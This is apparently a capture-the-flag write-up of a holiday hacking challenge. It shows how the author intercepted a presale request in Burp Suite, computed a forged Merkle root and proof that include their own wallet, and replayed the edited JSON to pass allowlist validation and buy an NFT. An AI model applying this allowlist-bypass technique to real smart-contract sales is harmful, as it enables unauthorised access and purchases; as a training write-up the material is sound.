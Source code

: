```yaml
---
sidebar_position: 3
---
```


# Exploit a Smart Contract

> Exploit flaws in a smart contract to buy yourself a Bored Sporc NFT. Find hints for this objective hidden throughout the tunnels.

# Check if my wallet is on the approval list

The very first thing I did was to verify if my wallet was on the approval list by using this GUI and sniffing the request.

![Approval list](/img/burning-ring/validate-on-list.png)

The request sniffed through Burp Suite looked something like this: 

```python
POST /cgi-bin/presale HTTP/2
Host: boredsporcrowboatsociety.com
Content-Length: 169
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108", "Microsoft Edge";v="108"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36 Edg/108.0.1462.54
Content-Type: application/json
Accept: */*
Origin: https://boredsporcrowboatsociety.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://boredsporcrowboatsociety.com/presale.html?&challenge=bsrs&username=reedphish&id=a0d0db21-aeba-4c63-ba57-e65159240fc3&area=level5&location=15,15&tokens=bsrs
Accept-Encoding: gzip, deflate
Accept-Language: nb,no;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,da;q=0.5

{ 
	"WalletID":"",
	"Root":"0x52cfdfdcba8efebabd9ecc2c60e6f482ab30bdc6acf8f9bd0600de83701e15f1",
	"Proof":"",
	"Validate":"true",
	"Session":"f813731a-dd84-4188-ae18-df23149cdbc2"
}
```

I need this one for later so better keep it! 

## Set up QPetabyte's Merkle Trees tool

In order to solve this objective I need to obtain and install a Merkle Tree tool:

```bash
git clone https://github.com/QPetabyte/Merkle_Trees
cd Merkle_Trees
docker build -t merkletrees .
docker run -it --rm --name=merkletrees merkletrees
```

### Setup merkle_tree.py script

This script needs a list of wallets to put on the allowlist in order to calculate the root value. My theory is that I put my wallet ID in as the first entry and then fill up with addresses found on the NFT gallery page (in file merkle_tree.py) : 

```python
# allowlist = ['0x1337133713371337133713371337133713371337','0x0000000000000000000000000000000000000000']

allowlist = [
    "0xB32428966dcDAF5F4C6715492EB1871971db1D9B",
    "0xa1861E96DeF10987E1793c8f77E811032069f8E9",
    "0xb9aA688bB7A1B085f307bf9a11790BFD24C5D5C2",
    "0xc249927fb81bde4eA7B9Dc9e4c9E6F503F147fe2",
    "0x8153e0E5cabC22545A1fe4d0149C2Fdc486A8ad8",
    "0x7F7cAA97b73fD38d6740e59C159428509eE00082",
    "0x214Fee463D58D21954e75bdD93c386414e71A985",
]
```

I renamed **merkle_tree_new.py** to **merkle_tree_new.py** for this writeup.

Then ran the tool:

```bash
$ python3 merkle_tree_new.py 

Root: 0x6394202d86193e1238566ddbe62f3b193f9122f746b6c281a13096a2b41aaeed
"0x0eeb229810d8a228636f88aa5ca05da0dbdeef0724017e8a81d06102aeacd974,0x78f9dc3d11e163c5302eb40c168a191888654297aaacf51bcddd089879f7f4ea,0xce8e5c755c18839416c96c002602346ba00220d2c35d77a674c7145a230419c5"
```

### HTTP Post validate adress on list 

I used BurpSuite proxy for this and Repated the sniffed POST request from earlier once edited with correct values:

* My wallet ID
* Proof string from Merkle Tree tool

```python
{
	"WalletID":"0xB32428966dcDAF5F4C6715492EB1871971db1D9B",
	"Root":"0x6394202d86193e1238566ddbe62f3b193f9122f746b6c281a13096a2b41aaeed",
	"Proof": "0x0eeb229810d8a228636f88aa5ca05da0dbdeef0724017e8a81d06102aeacd974,0x78f9dc3d11e163c5302eb40c168a191888654297aaacf51bcddd089879f7f4ea,0xce8e5c755c18839416c96c002602346ba00220d2c35d77a674c7145a230419c5",
	"Validate":"true",
	"Session":"f813731a-dd84-4188-ae18-df23149cdbc2"
}
```

Got the following feedback from server

```python
{"Response": "You're on the list and good to go! Now... BUY A SPORC!"}
```

### Prepaying 

Setting up the prepayment is just the same as in the buy a hat objective. Walk over to the teller:

![Teller machine](/img/burning-ring/smart-contract-1.png)

Approve a KringleCoin Transfer:

![Teller menu](/img/burning-ring/smart-contract-2.png)

Fill out the details:

![Preparing payment](/img/burning-ring/smart-contract-3.png)

Transaction approved!

![Payment done](/img/burning-ring/smart-contract-4.png)

### Paying for NFT

Reusing the HTTP POST request as used in "HTTP Post validate address on list", but altering parameter "Validate" to "false" (still using BurpSuite):

```python
{
	"WalletID":"0xB32428966dcDAF5F4C6715492EB1871971db1D9B",
	"Root":"0x6394202d86193e1238566ddbe62f3b193f9122f746b6c281a13096a2b41aaeed",
	"Proof": "0x0eeb229810d8a228636f88aa5ca05da0dbdeef0724017e8a81d06102aeacd974,0x78f9dc3d11e163c5302eb40c168a191888654297aaacf51bcddd089879f7f4ea,0xce8e5c755c18839416c96c002602346ba00220d2c35d77a674c7145a230419c5",
	"Validate":"false",
	"Session":"f813731a-dd84-4188-ae18-df23149cdbc2"
}
```

Response:

```python
{
	"Response": "Success! You are now the proud owner of BSRS Token #000234. You can find more information at https://boredsporcrowboatsociety.com/TOKENS/BSRS234, or check it out in the gallery!<br>Transaction: 0x4cd5d6458d1c1a430c07e410a58f79d660125ff8f2e9ab2032aa9be2112ad6b3, Block: 69095<br><br>Remember: Just like we planned, tell everyone you know to <u><em>BUY A BoredSporc</em></u>.<br>When general sales start, and the humans start buying them up, the prices will skyrocket, and we all sell at once!<br><br>The market will tank, but we'll all be rich!!!"}
```

Apparently I bought this NFT:

![My NFT](/img/burning-ring/BSRS234.png)